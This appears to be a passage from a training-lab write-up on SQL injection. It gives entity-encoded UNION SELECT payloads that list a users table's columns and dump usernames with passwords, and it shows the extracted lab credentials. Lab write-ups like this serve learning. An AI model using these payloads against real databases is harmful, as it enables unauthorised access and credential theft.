 `4 &#x55;NION &#x53;ELECT column_name FROM information_schema.columns &#x2d;&#x2d;&#x57;HERE table_name='users'`

`4 &#x55;NION &#x53;ELECT column_name FROM information_schema.columns &#x57;HERE table_name=&#x27;users&#x27;&#x2d;&#x2d;`

```
password username
```

`4 &#x55;NION &#x53;ELECT username||&#x27;&#x3a;&#x27;||password FROM users &#x2d;&#x2d;`
```
administrator:v1m32hdvl2ay7n0qq3hf wiener:xx79ekk0r9iedv7mfvgr carlos:xpwxhaomqpc00w11gk87

```

![](https://i.imgur.com/EmNdKIk.png)


# Others